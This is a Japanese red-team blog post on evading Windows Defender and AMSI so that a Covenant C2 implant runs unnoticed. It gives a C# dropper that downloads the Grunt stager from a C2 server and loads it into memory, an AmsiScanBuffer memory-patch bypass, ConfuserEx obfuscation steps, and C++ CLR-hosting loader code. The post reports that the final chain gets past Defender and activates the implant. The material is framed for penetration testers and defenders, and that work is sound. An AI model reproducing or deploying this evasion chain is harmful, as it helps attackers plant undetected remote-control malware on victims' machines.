検知回避の手法 - 実行ファイル

しゅーとです。今回は実行ファイル、特に.NETプログラムの検知回避に関する記事です。
ペネトレーションテストに携わりたい方だけではなく、Blue Teamの方もアンチウイルスソフト単体の限界を知る意味で有用と思います。
.NETプログラムの例として、セットアップが簡単なC2フレームワークである、Covenant の検知回避をゴールに説明します。
エージェントであるCovenant Gruntは.NETプログラムですが、OSSであるためにアンチウイルスベンダーに検証・解析されシグネチャが作成されています。
またCovenantはStagerとして様々なLauncherが用意されており、その中に実行ファイルであるBinary Launcherが存在します。ただこのバイナリは必ずアンチウイルスソフトによって検知されます。

Stagerは少し処理するだけで簡単に検知されなくなるよ、という意見が複数のブログで散見されますが、現在のWindows Defenderのファイル検知は難読化ツールを通すだけではクラウド保護によって検知されます。アンチウイルスや検知回避はいたちごっこが激しく、すぐに陳腐化してしまうのです。そう、あなたが見ているこの記事も。
せっかくRed TeamingでCovenantを使うとしても、Windows Defenderがオフの環境でないと使えませんと顧客に説明するのは嫌ですよね？
これを読めば、少なくとも顧客にWindows Defenderをオフにしてもらわなくても済むようになります。
留意事項
- 本記事はエージェントの確立までのアンチウイルスソフトの検知回避にのみフォーカスを当てて解説をしています。EDRの検知回避は範囲外です。
- 未加工のStagerをダウンロードする関係上、DownloadフォルダをWindows Defenderの例外フォルダに設定してください。検知テストはファイルを別フォルダに移動するなどして行うと楽です。
- 最初のほうはWindows Defenderの「クラウド提供の保護」および「サンプルの自動送信」をオフにしてください。この機能は一度検知されてしまうと、本機能をオフにしてもリアルタイムスキャンで同じバイナリを検知するようになってしまいます。後半ではこれらをオンにしたうえで検知回避をします。
オリジナルバイナリの検知内容の確認
まずはGruntのStagerがWindows Defenderによって検知されることを確認します。
※Covenantのインストール方法や使い方はここでは説明しません。Googleで検索すれば日本語記事が出てくるので、それを読むと良いでしょう。
まずはCovenantのListener画面。HttpProfileはDefaultHttpProfileで、何も変更していないプレーンな状態にしています。

次にCovenantのLauncherからBinary Launcherを選択し、Downloadします。すると以下のようにWindows Defenderによって検知されます。検出名は「VirTool:MSIL/Covent.A」でした。
まずはどう検知したのかを DefenderCheck で確認します。DefenderCheckはWindowsDefenderの コマンドラインツール「MpCmdRun.exe」 のラッパーで、ファイルを先頭から256バイトごとに結合して MpCmdRun.exe に投げてくれます。 検知される場合、検出名と検知したブロックのバイナリがhexで表示されます。

DefenderCheckはあくまでファイルのどの時点で検知されたかを教えてくれるだけです。最後のブロック以前の部分にも検出名の検知対象のデータが含まれているので注意。なおDefenderCheckに後述するAMSIのチェック機能を追加した ThreatCheck というものもあります。これを使ってもOK。
Windows Defenderのシグネチャ周りの話は、Allsafe様の「ミミミミミッミ」に書かれているので要チェックだ！
hexからわかるとおり、バイナリに含まれる文字列で検知されていそうです。Covenantは .NET 製であるため、逆コンパイルが可能です。逆コンパイラであるdnSpyで見ると、いかにも検知されそうなものがたくさんバイナリに含まれていることがわかります。

ConfuserExでStagerを難読化？
GruntのImplantおよびLauncherの画面でStagerのコードを律儀に変えてもいいですが、手動のリネームで検知回避をしようとすると最初からなかなかの労力がかかります。
そういうときに、難読化ツールの ConfuserEx を用いて.NET バイナリを難読化するのが選択肢に入ります。（使い方は割愛。）
オリジナルのConfuserExは更新停止しています。現在はmkaring氏のConfuserEx2を利用するといいでしょう。

このようにConfuserEXを通すことで、アンチウイルスソフトのシグネチャベースの検知を回避することが可能です。

しかしアンチウイルスソフトを侮ってはいけません。たとえ文字列要素を排除したとしても、Windows Defenderのクラウド保護機能はまだ検知をしてくる場合があります。CovenantをConfuserExによって難読化処理しても、クラウド保護機能はそれを「Trojan:Win32/Wacatac.C!ml」という検出名で検知するようになります。(詳細は後述)
なおこういったツールで難読化すること自体がアンチウイルスソフトのフラグを立たせてしまう可能性もあるので、使用には注意が必要です。
このことから、不審なバイナリであるStagerそのものをディスクに保存する手法は、単純に難読化するだけでは検知される可能性があるといえるでしょう。
リモートからアセンブリをメモリにロードする？
ファイルで検知をしてしまうなら、そもそもStagerをディスクに保存しないようにすればいいのです。
といっても今回侵害の起点はexeファイルの実行としているので、ローダはどうしてもファイルとして持っておく必要があります。ただローダはエージェントを外部から取得するドロッパー機能だけを搭載することで、ファイル検知エンジン（およびクラウド保護）の検知ポイントを最小限にすることができます。
それでは外部からアセンブリを取得し Assembly.Load() で動的にメモリに読み込むようにしてみましょう。これでWindows Defenderは回避できるでしょうか？
Covenant はファイルホスティング機能を持っており、Launcherの画面からファイルをホスティングさせることができます。

次にサーバからStagerを取得しメモリにロードするプログラムを書きます。
using System;
using System.Net;
using System.Reflection;
namespace Dropper
{
class Program
{
static void Main(string[] args)
{
var wc = new WebClient();
// Reflectively load assembly from a remote URL
var a = Assembly.Load(wc.DownloadData("http://192.168.11.254/GruntHTTP.exe"));
// Create instance
var t = a.GetType("GruntStager.GruntStager");
var c = Activator.CreateInstance(t);
// Call Stager
var m = t.GetMethod("GruntStager");
var output = (String)m.Invoke(c, null);
// Pause for input
Console.ReadKey();
}
}
}
コンパイルし、実行した結果がこちらです。

残念ながら、ログに出ているようにWebからメモリに展開されたGruntはアンチウイルスソフトによって検知されています。
ファイルにウイルスまたは望ましくない可能性のあるソフトウェアが含まれているため、操作は正常に完了しませんでした。
これは AMSI の機能によるものです。AMSIとはAntimalware Scan Interfaceの略で、アンチウイルスソフトに依存しない、悪意のあるコンテンツをスキャンするインターフェースです。アンチウイルスソフトはAMSIを利用してメモリ上に読み込まれるコンテンツをスキャンできます。
AMSI が動作するランタイムは複数あり、現在は PowerShell, WSH, VBA, .NET のランタイム用エンジンが存在します。これらのランタイムによってそれぞれエンジンの動作は異なります。PowerShell 5で搭載され、Powershellで実行されるコードを対象としていましたが、.NET 4.8 からはCLRに統合され、 .NET で読み込まれるアセンブリもスキャン対象になりました。
そのためファイルレスだったとしても、Assembly.Load()を用いた手法ではメモリの内容がAMSIを通してアンチウイルスソフトによって検閲され、不正と判断された場合は検知されてしまいます。
Defenderのサイレント検知
このAMSIによる検知、Windows Defender上ではデスクトップ上にアラートが表示されずにサイレントで検知し終了するパターンがあります。例えば上のAssembly.Load()で読み込んだ例が顕著で、これだとどの検出名で検知したかどうかがわかりません。しかしMicrosoftのEDR製品であるMicrosoft Defender for Endpointを契約して管理コンソールで確認してみると、検出名「VirTool:MSIL/Covent.A」で検知していることがわかります。

ファイル名の部分はamsistreamになっており、AMSI経由で検知したことがわかります。このサイレント検知現象は過去の私含め、世界の駆け出しnoob達の最初の壁になっているようです。
Stage2読み込み時のAMSI検知
また、仮にStagerをファイル・メモリどちらでも検知回避したとしても、StagerがGruntのStage 2を取得しメモリに読み込んだ時点でまた別の検知がされることもあります。
以下は検知回避を行ったStagerバイナリを実行し、Stage2で検知されたときの図です。

メモリにStage2を読みこんだ時点で、AMSIを通じて「VirTool:MSIL/Covent.C」として検知されます。（こちらはDefenderの画面でアラートが表示されました）
Covenant はStagerからの初回通信時にStage2 (ExecutorCode) をコンパイルし送信します。このコードはTemplatesから変更できるので難読化もできないことはないのですが、HTTPProfileやらの内容を置換してコンパイルする必要があったりするので、変えるのはなかなか面倒です。
AMSIバイパスする
AMSI は上記のように何も対策をしていない .NET アセンブリにとって脅威です。しかしAMSIには大きな欠点があります。AMSIはユーザランドでプログラム実行時にamsi.dllをロードさせる仕組み上、当該dllに対するメモリパッチによって容易にバイパスされるのです。
rasta-mouse氏が公開している .NET 製のAMSIバイパスライブラリ「AMSIScanBufferBypass」は、amsi.dll に存在するAMSIScanBufferの関数アドレスの先頭を、常に安全なコードであることを示す「AMSI_RESULT_CLEAN」(0x80070057)を返すように、以下のオペコードでパッチします。
mov eax,0x80070057
ret
こうすることでAMSIは全てのコンテンツをAMSIプロバイダーに渡さずに即座にクリーンと誤認します。詳しくは氏のブログ投稿をお読みください。
ということで、先ほどのバイナリにAMSIScanBufferBypassを適用してみましょう。
(..snip..)
static void Main(string[] args)
{
Amsi.Bypass();
var wc = new WebClient();
(..snip..)
AMSIScanBufferBypassのコードをローダーと同じところにおいて、Bypass()を呼び出すだけです。
ビルド後はいったんConfuserEXで難読化しておきます（そのままだとバイパスコードが「Win32/AmsiTamper.B」として検知されます）。
難読化したバイナリを実行した結果が以下です。

無事、Windows Defenderの検知を回避してAMSIバイパスを発火させ、Stage2のAMSIスキャンもバイパスしてGruntがアクティベーションされました。
おまけ: AMSI対応版 DefenderCheck
オリジナルのDefenderCheckはファイルのスキャンのみに対応していましたが、rasta-mouse氏がフォークした「ThreatCheck」はAMSIにも対応しています。原理は単純で、DefenderCheckと同じようにブロックごとにデータを分割しAMSIScanBufferに投げるという実装です。もしあなたがStagerを外部サーバに配置してドロップする方法をとるなら、事前にThreatCheckで検知テストすることをお勧めします。
アンマネージドコードでAMSIバイパス
.NET 製AMSIバイパスの罠
前項では .NET 製のローダにAMSIバイパスを組み込んでStagerをロードしました。ただ .NET 製プログラムを使ったAMSIバイパスには少し不安が残ります。.NET アセンブリではバイパスする以前から既にamsi.dllが読み込まれている以上、AMSIバイパスのコードがAMSIによって検知されるという鶏卵問題に直面する可能性があるのです。
わかりやすい例として、AMSIBufferBypassを外部からメモリに読み込み発火させることを考えましょう。以下のようなコードになります。
Assembly.Load(wc.DownloadData("http://192.168.11.254/ASBBypass.dll"));
これを実行すると、やはりAMSIにて検知され、実行がブロックされました。以下はDefender ATPの画面です。

ThreatCheck での実行結果はこちらです。

オリジナルのASBBypassに紐づくもの(GUID, アセンブリ情報, pdb)を検知するほか、それらの情報を削除しても、画像のようにまだ検知する部分があります。赤枠で囲ったものは、パッチするオペコード「mov eax, 0x80070057 / ret」の部分です。
これを回避するためにはいくつかの方法が考えられます。よくあるのがバイパスコードのルーチン変更や暗号化です。実際、そのようにAMSIバイパスコードをカスタマイズすれば割と検知されなくなります。
ルーチン変更については次回説明予定です。
そもそもAMSIを避ける
もうひとつ鶏卵問題を避ける方法として考えられるのは、そもそもamsi.dllがロードされないアンマネージドコードのバイナリを利用することです（ファイルスキャンを回避するテクニックは結局必要になりますが）。いわゆる C/C++ で書かれるようなネイティブプログラムですね。
そもそも全ての侵害を .NET を使わずにアンマネージドコードで済ませるならAMSIなんて気にする必要はありませんが、あいにくCovenantは .NET 製なのです。そのためアンマネージドコードでAMSIバイパスを行い、 .NET アセンブリを読み込み実行させる必要があります。
これを可能とする実用的なものは先人たちが作ってくれています。donut です。ただこのツールの紹介はあとにして、ここではAMSIバイパスしたうえでアンマネージドコードから .NET アセンブリを読み込む簡単な実証コードを紹介します。（脱スクリプトキディ！）
ExecuteInDefaultAppDomain()
アンマネージドコードから .NET アセンブリを呼び出す方法は昔から存在します。.NET ランタイム、つまりCLRを扱うためにドメイン中立アセンブリとして mscorlib.dll がいます。このdllが提供しているAPIを使って .NET アセンブリを処理してもらえばいいのです。
static メソッドを呼ぶ用途だけなら ExecuteInDefaultAppDomain() を利用して簡単に .NET アセンブリを呼び出すことができます。ただし、このメソッドから呼び出されるコードは必ず以下のシグネチャが必要です(当然メソッド名・引数名は自由です)。
static int pwzMethodName (String pwzArgument)
例として「Hello, World!」を出力する .NET プログラムを作成します。
using System;
using System.Windows.Forms;
namespace hello
{
class Program
{
static void Say()
{
MessageBox.Show("Hello, World!");
}
static int HostingSay(String pwzArgument)
{
Say();
return 0;
}
static void Main(string[] args)
{
Say();
}
}
}
ExecuteInDefaultAppDomain() の要求に一致させるため、HostingSay() を実装しています。
コンパイルし、hello.exeを生成します。
> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe hello.cs
このアセンブリを呼び出す C++ コードが以下です。
#include <windows.h>
#include <mscoree.h>
#include <corerror.h>
#include <metahost.h>
#include <iostream>
#include "callnet.h"
#pragma comment (lib, "mscoree.lib")
#import "mscorlib.tlb" raw_interfaces_only high_property_prefixes("_get","_put","_putref") rename("ReportEvent","InteropServices_ReportEvent") rename("or","oref")
int wmain(int argc, wchar_t* argv[])
{
HRESULT hr;
ICLRMetaHost* pMetaHost = NULL;
ICLRRuntimeInfo* pRuntimeInfo = NULL;
ICLRRuntimeHost* pClrRuntimeHost = NULL;
TCHAR szBuf[256];
// build runtime
hr = CLRCreateInstance(CLSID_CLRMetaHost, IID_PPV_ARGS(&pMetaHost));
hr = pMetaHost->GetRuntime(L"v4.0.30319", IID_PPV_ARGS(&pRuntimeInfo));
hr = pRuntimeInfo->GetInterface(CLSID_CLRRuntimeHost,
IID_PPV_ARGS(&pClrRuntimeHost));
// start runtime
hr = pClrRuntimeHost->Start();
// execute managed assembly
DWORD pReturnValue;
hr = pClrRuntimeHost->ExecuteInDefaultAppDomain(
L"hello.exe",
L"hello.Program",
L"HostingSay",
L"",
&pReturnValue);
printf("ExecuteInDefaultAppDomain HRESULT: %x \n", hr);
std::cin.get(); //pause
// free resources
pMetaHost->Release();
pRuntimeInfo->Release();
pClrRuntimeHost->Release();
return 0;
}
これもコンパイルして、同じフォルダにhello.exeを置いた状態で実行してみます。

.NET アセンブリであるhello.exeのSay()で記述されているメッセージボックスが表示されました。ProcessHackerで該当プロセスを確認すると .NET assembliesタブがあり、そこにDefaultDomainという名前のAppDomainが存在します。
Covenant Stagerを呼び出してみる
CLR を呼び出すことを確認できたので、次はCovenant Stagerを呼び出してみます。
ExecuteInDefaultAppDomain()の要求に一致させるため、Stagerのコードなら以下のようにExecute()を呼び出すメソッドを追加する必要があります。
static int HostingExecute(String pwzArgument)
{
Execute();
return 0;
}
Covenant にはStagerおよび最終的なペイロードであるExecutorをテンプレートで変更できるTemplates画面があります。そこの画面で追加しましょう。

新しいBinary Launcherをダウンロードし、これをExecuteInDefaultAppDomain()で呼んでみましょう。ローダーの差分のコードです。
(..snip..)
hr = pClrRuntimeHost->ExecuteInDefaultAppDomain(
L"C:\\Users\\user\\Downloads\\GruntHTTP.exe", // 実行したい .NET アセンブリ
L"GruntStager.GruntStager",
L"HostingExecute",
L"",
&pReturnValue);
}
(..snip..)
AMSIバイパスの検証のため、ファイルはWindows Defenderの例外に設定しています。
実行結果。

AMSI に検知されました。あれ？アンマネージドコードなのになぜAMSIで検知しているのかって？
例外をよく見てください。例外を発生させているのは、CLRを読み込んだあと呼び出されたCovenantのStagerです。Stagerがサーバからペイロードをダウンロードしメモリに読み込むためにAssembly.Load() を呼び出したとき、検知しています。当然この領域は既に .NET 範囲内なのでAMSIが動きます。
